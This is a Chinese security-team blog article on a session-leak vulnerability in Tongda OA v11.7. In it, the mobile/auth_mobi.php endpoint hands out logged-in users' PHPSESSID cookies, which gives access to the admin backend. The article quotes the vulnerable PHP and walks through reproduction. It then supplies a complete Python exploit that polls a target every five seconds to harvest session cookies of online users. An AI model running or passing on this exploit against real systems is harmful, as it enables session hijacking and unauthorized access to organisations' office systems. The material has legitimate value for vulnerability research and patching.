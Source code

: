 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5M40Oux_89dgy5QAUhULGg)

**点击蓝字**

![图片](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

**关注我们**

  

  

**_声明  
_**

本文作者：PeiQi  
本文字数：1338

阅读时长：15min

附件/链接：点击查看原文下载

声明：请勿用作违法用途，否则后果自负

本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载

  

  

  

**_前言_**

  

  

一、

**_漏洞描述_**

通达OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION使其可登录后台系统  
  
  

二、

**_漏洞影响_**

通达OA < v11.7  

  

**三、**

**_漏洞复现_**

通达OA v11.7下载链接（回复通达OA11.7下载）

下载后按步骤安装即可

漏洞有关文件 **MYOA\webroot\mobile\auth_mobi.php**

```
`<?php``function relogin()``{` `echo _('RELOGIN');` `exit;``}``ob_start();``include_once 'inc/session.php';``include_once 'inc/conn.php';``include_once 'inc/utility.php';``if ($isAvatar == '1' && $uid != '' && $P_VER != '') {` `$sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';` `$cursor = exequery(TD::conn(), $sql);` `if ($row = mysql_fetch_array($cursor)) {` `$P = $row['SID'];` `}``}``if ($P == '') {` `$P = $_COOKIE['PHPSESSID'];` `if ($P == '') {` `relogin();` `exit;` `}``}``if (preg_match('/[^a-z0-9;]+/i', $P)) {` `echo _('非法参数');` `exit;``}``if (strpos($P, ';') !== false) {` `$MY_ARRAY = explode(';', $P);` `$P = trim($MY_ARRAY[1]);``}``session_id($P);``session_start();``session_write_close();``if ($_SESSION['LOGIN_USER_ID'] == '' || $_SESSION['LOGIN_UID'] == '') {` `relogin();``}`
```

在执行的 SQL语句中  

```
$sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';
```

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAwKVoaO6WJicNllyjuqwuK4TxWz4RlnG7vzwJg0uW8zUicEPgEwIyRFb3CZkDLH4BXWOXqJenibwnmQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

简单阅读PHP源码可以知道 此SQL语句会查询用户是否在线，如在线返回此用户 Session ID

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAwKVoaO6WJicNllyjuqwuK48t2YbsW4cRiaunNYlchY7YibOLPs6CvqnvRYkf90CtWDoInOFCHNdEtg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

将返回的 Set-Cookie 中的Cookie参数值使用于登录Cookie

访问目标后台 http://xxx.xxx.xxx.xxx/general/

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAwKVoaO6WJicNllyjuqwuK4ToYnrcicLicxEnWic4ibJia6XdmntSCxCktzdb03hR00MuHmLRV0QqPmf4Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

当目标离线时则访问漏洞页面则会出现如下图

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAwKVoaO6WJicNllyjuqwuK46u9QOs5UHu3R9VCs9IzKAfP3dibZumkKbX62lhJq8iaKRbmgjiaCY8W0Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

5秒一次测试用户是否在线

通过此思路可以持续发包监控此页面来获取在线用户的Cookie

  

**四、**

**_Payload_**

  

```
`import requests``import sys``import random``import re``import time``from requests.packages.urllib3.exceptions import InsecureRequestWarning``def title():` `print('+------------------------------------------')` `print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')` `print('+  \033[34mVersion: 通达OA 11.7                                               \033[0m')` `print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')` `print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')` `print('+------------------------------------------')``def POC_1(target_url):` `vuln_url = target_url + "/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0"` `headers = {``"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",` `}``try:` `requests.packages.urllib3.disable_warnings(InsecureRequestWarning)` `response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)``if "RELOGIN" in response.text and response.status_code == 200:` `print("\033[31m[x] 目标用户为下线状态 --- {}\033[0m".format(time.asctime( time.localtime(time.time()))))``elif response.status_code == 200 and response.text == "":` `PHPSESSION = re.findall(r'PHPSESSID=(.*?);', str(response.headers))` `print("\033[32m[o] 用户上线 PHPSESSION: {} --- {}\033[0m".format(PHPSESSION[0] ,time.asctime(time.localtime(time.time()))))``else:` `print("\033[31m[x] 请求失败，目标可能不存在漏洞")` `sys.exit(0)``except Exception as e:` `print("\033[31m[x] 请求失败 \033[0m", e)``if __name__ == '__main__':` `title()` `target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))``while True:` `POC_1(target_url)` `time.sleep(5)`
```

**效果**  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAwKVoaO6WJicNllyjuqwuK4VstmrBiaRveSLrSSzFgwibTDbicD4MBPDdzKiaZMgjRdEdj9Qf78ImZoHg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

**团队【PeiQi】师傅的微信二维码放在这了**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9XhJILPG5qnhYyI1fjI4vqjV0MgnUM4ibYRfCFaV4wk5FRaGibxMptiadRw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

  

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)